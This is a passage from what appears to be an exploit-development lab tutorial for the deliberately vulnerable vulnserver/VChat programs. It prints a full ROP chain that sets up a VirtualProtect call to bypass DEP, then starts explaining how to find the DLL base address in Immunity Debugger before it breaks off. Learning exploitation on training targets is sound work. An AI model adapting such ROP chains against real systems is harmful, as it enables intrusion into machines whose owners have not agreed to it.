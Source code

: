     We selected the combination of `vulnserver.exe` and `ntdll.dll` and got the following ROP chain.
    ```
        #[---INFO:gadgets_to_set_esi:---]
        0x771e7a5a,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x62508128,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7716c7f2,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7713e866,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x77177cbf,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7718b903,  # & call esp [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebx:---]
        0x771e28aa,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x74a1a301,  # put delta into eax (-> put 0x00000201 into ebx)
        0x77142002,  # ADD EAX,8B5E5F00 # RETN [ntdll.dll] ** REBASED ** ASLR
        0x771d3ea9,  # XCHG EAX,EBX # OR EAX,E58BFFFA # POP EBP # RETN 0x08 [ntdll.dll] ** REBASED ** ASLR
        0x41414141,  # Filler (compensate)
        #[---INFO:gadgets_to_set_edx:---]
        0x77170173,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x41414141,  # Filler (RETN offset compensation)
        0x41414141,  # Filler (RETN offset compensation)
        0x74a1a140,  # put delta into eax (-> put 0x00000040 into edx)
        0x77142002,  # ADD EAX,8B5E5F00 # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7711b6e2,  # XCHG EAX,EDX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x771d74b6,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x77225c9f,  # &Writable location [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x7717a182,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR
        0x77136205,  # RETN (ROP NOP) [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        0x772118d4,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        0x771194f1,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ```
4. Now we can locate the *base* address of the DLL we used as part of this ROP chain, there are two methods for doing this when the DLL has been loaded by the VChat process.

    1. Immunity Debugger.
       1. Open the Memory View window (View -> Memory).

            <img src="Images/I16.png" width=600>
